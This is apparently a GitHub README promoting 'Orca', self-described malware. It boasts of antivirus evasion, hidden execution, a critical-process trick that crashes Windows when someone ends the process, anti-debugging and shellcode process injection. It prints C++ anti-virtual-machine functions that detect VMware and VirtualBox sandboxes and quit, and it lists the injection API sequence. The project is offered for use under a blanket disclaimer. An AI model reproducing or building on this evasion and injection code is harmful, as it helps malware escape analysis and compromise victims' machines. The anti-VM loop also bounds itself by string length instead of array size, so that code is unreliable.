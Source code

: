 
# About Orca

* Orca is an Advanced Malware with multifeatures written in ASM/C/C++ 

# features
* Run in Background (Hidden Mode)

### Critical Process using RtlSetProcessIsCritical

* RtlSetProcessIsCritical makes the process critical, any attempt to terminate it will BSOD the system (Blue Screen of Death) , although it can be bypassed easly using NtSetInformationProcess by injecting DLL into it , i made PoC of it you can check it from here [BypassRtlSetProcessIsCritical](https://github.com/ZeroM3m0ry/BypassRtlSetProcessIsCritical)


<br>
<img src="https://github.com/walczy/Skinjbir/blob/main/r2.jpg"></img>
<br>

* Undectable  (60+ Antivirus )

<br>
<img src="https://github.com/walczy/Skinjbir/blob/main/r1.JPG"></img>
<br>

### Detecting Virtual Environment Files and Processes
* Code Snippets
* the following Function will search for VMware Processes

```cpp
void antiVm()
{
	const char* arr[] = { "vmtoolsd.exe","vmwaretray.exe","vmwareuser.exe" ,"VGAuthService.exe" ,"vmacthlp.exe" };
	for (int i = 0; i < strlen(*arr); i++)
	{
		if (GetPID(arr[i]))
			exit(EXIT_FAILURE);
	}
}
```
* the following Function will search for VirtualBox Files

```cpp
void antiVr() {
	if  (IsExist("C:\\windows\\System32\\vboxoglpackspu.dll"))exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\Drivers\\VBoxSF.sys")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\Drivers\\VBoxVideo.sys")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxoglpassthroughspu.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxdisp.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxhook.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxmrxnp.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxogl.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxoglcrutil.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\Drivers\\VBoxGuest.sys")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxoglerrorspu.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxoglfeedbackspu.dll")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\Drivers\\VBoxMouse.sys")) exit(EXIT_FAILURE);
	else if (IsExist("C:\\windows\\System32\\vboxoglarrayspu.dll")) exit(EXIT_FAILURE);
}
```



### Anti-Debug
* the Malware will self close 'Silently' anytime detect a debugger or being debugged!! [AntiDBG Library](https://github.com/HackOvert/AntiDBG) 
-  The techniques that used to Detect debuggers :
```  
  - Memory
  - CPU
  - Timing
  - Forced Exceptions
  ```
# Process Injection

* [Process Injection](https://github.com/ZeroM3m0ry/Shellcode-Injector) It is a method of executing arbitrary code in the address space of a separate live process. Running code in the context of another process may allow access to the process’s memory, system/network resources, and possibly elevated privileges. Execution via process injection may also evade detection from security products since the execution is masked under a legitimate process.
* 
![Alt Text](https://github.com/ZeroM3m0ry/Orca/blob/main/pe-injection.gif)


### TECHNICAL DETAILS

* Open process with Access Rights
* LPTHREAD_START_ROUTINE (its a pointer to the application-defined function of type LPTHREAD_START_ROUTINE to be executed by the thread and represents the starting address of the thread in the remote process. The function must exist in the remote process.)
* VirtualAllocEx (used to allocate space from the target process virtual memory)
* WriteProcessMemory (used to write the path of the shellcode into the allocated memory)
* CreateRemoteThread (used to creates a thread in the virtual memory area of a process)

### More Advanced features will  be added soon
# Disclaimer
* I take no responsibility for Harmful using or any damage can make. Use it at your own risk.

